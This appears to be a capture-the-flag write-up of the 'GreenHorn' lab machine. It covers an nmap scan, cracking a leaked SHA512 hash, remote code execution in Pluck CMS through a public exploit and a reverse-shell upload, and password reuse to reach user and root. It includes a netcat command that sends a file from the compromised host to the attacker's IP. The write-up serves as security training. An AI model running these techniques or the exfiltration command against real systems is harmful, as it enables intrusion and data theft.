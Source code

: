 This was an easy box but took me longer than expected to crack.

Started off with an NMAP scan

```diff
nmap -p- -A -T4 10.10.11.25

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 57:d6:92:8a:72:44:84:17:29:eb:5c:c9:63:6a:fe:fd (ECDSA)
|_  256 40:ea:17:b1:b6:c5:3f:42:56:67:4a:3c:ee:75:23:2f (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://greenhorn.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Content-Type: text/html; charset=utf-8
|     Set-Cookie: i_like_gitea=62f2fcf1176f2db0; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=97S-jdG8v4soGuIvlAtrVnm-RCw6MTcyMjI3NDAzNDYwOTMxMDQ2Nw; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Mon, 29 Jul 2024 17:27:14 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-auto">
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>GreenHorn</title>
|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR3JlZW5Ib3JuIiwic2hvcnRfbmFtZSI6IkdyZWVuSG9ybiIsInN0YXJ0X3VybCI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLCJzaXplcyI6IjUxMng1MTIifSx7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYX
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Allow: HEAD
|     Allow: GET
|     Allow: HEAD
|     Allow: HEAD
|     Allow: GET
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Set-Cookie: i_like_gitea=6dc3dd530f506673; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=Aiz2dT_8egztQ4XLhngm2kmm3W46MTcyMjI3NDA0MTAwMDgxMzI3OQ; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Mon, 29 Jul 2024 17:27:21 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.94SVN%I=7%D=7/29%Time=66A7D0F2%P=x86_64-pc-linux-gnu%r
SF:(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x
SF:20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Ba
SF:d\x20Request")%r(GetRequest,1530,"HTTP/1\.0\x20200\x20OK\r\nCache-Contr
SF:ol:\x20max-age=0,\x20private,\x20must-revalidate,\x20no-transform\r\nCo
SF:ntent-Type:\x20text/html;\x20charset=utf-8\r\nSet-Cookie:\x20i_like_git
SF:ea=62f2fcf1176f2db0;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nSet-Coo
SF:kie:\x20_csrf=97S-jdG8v4soGuIvlAtrVnm-RCw6MTcyMjI3NDAzNDYwOTMxMDQ2Nw;\x
SF:20Path=/;\x20Max-Age=86400;\x20HttpOnly;\x20SameSite=Lax\r\nX-Frame-Opt
SF:ions:\x20SAMEORIGIN\r\nDate:\x20Mon,\x2029\x20Jul\x202024\x2017:27:14\x
SF:20GMT\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en-US\"\x20class=\"the
SF:me-auto\">\n<head>\n\t<meta\x20name=\"viewport\"\x20content=\"width=dev
SF:ice-width,\x20initial-scale=1\">\n\t<title>GreenHorn</title>\n\t<link\x
SF:20rel=\"manifest\"\x20href=\"data:application/json;base64,eyJuYW1lIjoiR
SF:3JlZW5Ib3JuIiwic2hvcnRfbmFtZSI6IkdyZWVuSG9ybiIsInN0YXJ0X3VybCI6Imh0dHA6
SF:Ly9ncmVlbmhvcm4uaHRiOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9ncmVlbmh
SF:vcm4uaHRiOjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLC
SF:JzaXplcyI6IjUxMng1MTIifSx7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvY
SF:X")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(HTTPOptions,1BD,"HTTP/1\.0\x20405\x20Method\x20Not\x20All
SF:owed\r\nAllow:\x20HEAD\r\nAllow:\x20GET\r\nAllow:\x20HEAD\r\nAllow:\x20
SF:HEAD\r\nAllow:\x20GET\r\nCache-Control:\x20max-age=0,\x20private,\x20mu
SF:st-revalidate,\x20no-transform\r\nSet-Cookie:\x20i_like_gitea=6dc3dd530
SF:f506673;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nSet-Cookie:\x20_csr
SF:f=Aiz2dT_8egztQ4XLhngm2kmm3W46MTcyMjI3NDA0MTAwMDgxMzI3OQ;\x20Path=/;\x2
SF:0Max-Age=86400;\x20HttpOnly;\x20SameSite=Lax\r\nX-Frame-Options:\x20SAM
SF:EORIGIN\r\nDate:\x20Mon,\x2029\x20Jul\x202024\x2017:27:21\x20GMT\r\nCon
SF:tent-Length:\x200\r\n\r\n")%r(RTSPRequest,67,"HTTP/1\.1\x20400\x20Bad\x
SF:20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnectio
SF:n:\x20close\r\n\r\n400\x20Bad\x20Request");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=7/29%OT=22%CT=1%CU=44223%PV=Y%DS=2%DC=T%G=Y%TM=66A7
OS:D161%P=x86_64-pc-linux-gnu)SEQ(SP=F8%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)S
OS:EQ(SP=F8%GCD=2%ISR=107%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M53CST11NW7%O2=M53CST1
OS:1NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=FE
OS:88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M5
OS:3CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4
OS:(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%
OS:F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%
OS:T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%R
OS:ID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   164.65 ms 10.10.14.1
2   165.29 ms 10.10.11.25

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1984.66 seconds
```
Firstly add the IP of the box to /etc/hosts and map it to greenhorn.htb

Now, There are two ports hosting websites, port 80 and 3000. I initially focused on the main port and navigated to http://greenhorn.htb. It is hosting a Pluck CMS (version: 4.7.18). Upon further exploring this site, we find two endpoints login.php and admin.php. I tried to access admin.php but was redirected to login.php asking to log in. I hit a road block here.

So, now lets focus on http://greenhorn.htb:3000. It is hosting Gitea, a DevOps platform. Further exploring the site we can find GreenAdmin/GreenHorn with all the source code of the main website. We can find the source code of admin.php and login.php, how the login is handled using cookies and other technologies. 

In the login.php page we can find a placeholder $ww for password and we can also see that SHA512 hashing is used for passwords. Further exploring the directory we find a pass.php in data/settings path. We can find the SHA512 hash og the password.

After dehashing the obtained hash we get a password "iloveyou1". Now try to login at login.php with this password and you will be given access to admin.php. Which is used to manage the whole website. 

Now in the admin portal there is a way to upload files. I tried to exploit this to gain RCE by uploading a PHP reverse shell. But sadly the website has measure to counter this. If the file extension has commonly used php extensions in it then it is appended with a .txt extension, nullifying the .php extension. I tried to proceed by adding a null byte(%00 and 0x00) to the end of the .php extension. Now the file is getting uploaded without a .txt file extension but still the file cannot be executed on the server side, everytime I try to run the file by clicking on it, it prompts a download. 
![alt text](/assets/image1.png)

After many more failed attempts, I turned to exploitDB and luckily Pluck(version: 4.7.18) is vulnerable to RCE as I expected but to exploit this we had to upload a .zip file with the reverse shell in it rather than directly uploading the reverse shell. I used the the exploit posted on exploitDB (https://www.exploit-db.com/exploits/51592) and Bingo!! Got a shell. 
![alt text](/assets/image.png)
![alt text](/assets/image2.png)

Now off to user.txt. Navigating to /home/junior I found the user.txt with another PDF file, "Using OpenVAS.pdf". When I tried to cat the user.txt, I got a permission denied error. Only root and junior had permission to access both these files. Now this is where I got stuck for a long time. I tried a variety of privilege escalation methodologies with no success. I was frustrated and I just randomly thought of using the previously obtained password "iloveyou1" as junior's password, it worked T.T.
![alt text](/assets/image3.png)


Now I wanted to read the contents of the PDF. But I had no provisions to do so on the shell so I thought of using netcat to transfer it to my host machine where I could analyse it. 

Syntax for File transfer on the shell(sender)
```diff
nc -w 3 10.10.14.109 12345 < 'Using OpenVAS.pdf'

```
Syntax for File transfer on the host(receiver)
```diff
nc -lp 12345 > output.pdf
```

Analysing the PDF we can see that there is a password for root mention in the file but it is pixelated. I tried out many online tools to dipixelate the pdf but none worked. Then came across a tool named Depix(https://github.com/spipm/Depix) from a blog online. 
![alt text](/assets/image4.png)

To use Depix let's first convert the pdf to an image
```diff
pdfimages output.pdf pix
```

Now to use Depix
![alt text](/assets/image5.png)
![alt text](/assets/image6.png)

The password for root is "sidefromsidetheothersidesidefromsidetheotherside"
![alt text](/assets/image7.png)
